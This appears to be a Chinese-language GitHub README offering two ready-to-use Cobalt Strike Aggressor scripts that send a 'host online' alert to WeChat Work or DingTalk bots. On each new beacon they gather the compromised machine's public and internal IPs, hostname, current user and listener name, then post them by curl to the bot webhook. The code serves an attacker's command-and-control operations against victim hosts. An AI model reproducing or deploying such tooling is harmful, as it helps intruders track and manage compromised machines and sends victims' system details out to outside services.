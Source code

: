 Cobalt Strike上线提醒，主机上线提醒
原理主要是beacon的执行的生命周期初始化的过程进行消息推送。当然还有其他生命周期可以介入。详细可以自行谷歌。以下是手懒族直接用的代码

配置链接参考：
https://zhuanlan.zhihu.com/p/129901896

## 微信机器人版本(自行替换dt_token为对应机器人的值)：

$dt_token = "aaaaaa";
$dt_bot_webhookURL = 'https://qyapi.weixin.qq.com/cgi-bin/webhook/send?key='.$dt_token;
$targetInfo_txt = "## 有主机上线！\n>";
$listener_txt = "**所属项目：**";
$externalIp_txt = "  \n  >**公网IP：**";
$internalIp_txt = "  \n  >**内网IP：**";
$computerName_txt = "  \n  >**主机名：**";
$userName_txt = "  \n  >**当前用户：**";
on beacon_initial {
    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $dt_msg = "{\"msgtype\": \"text\",\"text\": {\"content\":"."\"".$targetInfo_txt.$listener_txt.$listennerName.$externalIp_txt.$externalIP.$internalIp_txt.$internalIP.$computerName_txt.$computerName.$userName_txt.$userName."\""."}}";
    @curl_command = @('curl', '-H', 'Content-Type: application/json', '-d', $dt_msg, $dt_bot_webhookURL);
    exec(@curl_command);
}

## 钉钉版本(自行替换dt_token为对应机器人的值)：
$dt_token = "bbbbbb";
$dt_bot_webhookURL = 'https://oapi.dingtalk.com/robot/send?access_token='.$dt_token;
$targetInfo_txt = "## 有主机上线！\n>";
$listener_txt = "**所属项目：**";
$externalIp_txt = "  \n  >**公网IP：**";
$internalIp_txt = "  \n  >**内网IP：**";
$computerName_txt = "  \n  >**主机名：**";
$userName_txt = "  \n  >**当前用户：**";
on beacon_initial {
    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $dt_msg = "{\"msgtype\": \"markdown\",\"markdown\": {\"title\":\"新主机上线\",\"text\":"."\"".$targetInfo_txt.$listener_txt.$listennerName.$externalIp_txt.$externalIP.$internalIp_txt.$internalIP.$computerName_txt.$computerName.$userName_txt.$userName."\""."}}";
    @curl_command = @('curl', '-H', 'Content-Type: application/json', '-d', $dt_msg, $dt_bot_webhookURL);
    exec(@curl_command);
}


